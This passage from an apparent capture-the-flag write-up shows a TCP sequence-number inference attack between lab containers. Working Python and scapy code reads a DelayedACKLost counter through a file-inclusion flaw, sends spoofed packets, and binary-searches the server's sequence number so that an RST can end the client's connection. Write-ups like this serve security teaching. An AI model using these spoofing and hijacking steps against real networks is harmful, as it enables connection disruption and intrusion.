 Luckily the mentioned `DelayedACKLost` counter can still be found in `/proc/net/netstat` (*note*: different kernel versions have different columns in `netstat` so you may need to change this in this script when using locally).

As we have `scapy` installed on the `webserver` container where we have RCE with `root` permissions we may use the `DelayedACKLost`-oracle to determine the current sequence number by crafting spoofed packets.

## Exploit

### Attack Plan

We are planning following attack (from `webserver`):

* Spoof out-of-oder packets from `server` to `client`.
* Watch `/proc/net/netstat`'s `DelayedACKLost` counter.
* Get `server`'s current sequence number by carefully watching the counter.
* Send `RST` packet to terminate the client connection.

### Attack

To get the `DelayedACKLost` counter we will be using the LFI on the `client` app using this Python code:

```Python
def get_client_netstat_delayedacklost():
    r = requests.get('http://172.21.0.3:5000/file?name=/proc/net/netstat')
    new_dal = r.text.split('\n')[1].split()[19]
    return int(new_dal)
```

This get `netstat` from the client and gets the 20th column on the 2nd line (which is the `DelayedACKLost` counter).

When sending our spoofed packets to the `client` (source IP from `server`) we can use this oracle to see if the `server`'s sequence number is smaller or bigger than the faked sequence number we are sending.

We will be sending spoofed packets with `scapy`:

```Python
send(IP(src="172.21.0.2",dst="172.21.0.3")/TCP(sport=21587,dport=7775,flags='A',seq=SEQUENCENUMBER)/'A',verbose=False)
```

First I tried to do a recursive divide and conquer approach like this:

```Python
def binary_search_recursive(start, end):
    global dal
    if start > end:
        # We are near the correct sequence (off by one)
        return start

    mid = (start+end) // 2
    send(IP(src="172.21.0.2",dst="172.21.0.3")/TCP(sport=21587,dport=7775,flags='A',seq=mid)/'A',verbose=False)
    new_dal = get_client_netstat_delayedacklost()

    if new_dal > dal:
        dal = new_dal
        print("[-] Sent fake probe packet from server to client with sequence {:10}. DelayedACKLost counter on client: {:3} (increased: sequence number is bigger)".format(mid,new_dal))
        return binary_search_recursive(mid+1, end)
    else:
        print("[-] Sent fake probe packet from server to client with sequence {:10}. DelayedACKLost counter on client: {:3} (not increased: sequence number is smaller)".format(mid,new_dal))
        return binary_search_recursive(start, mid-1)
```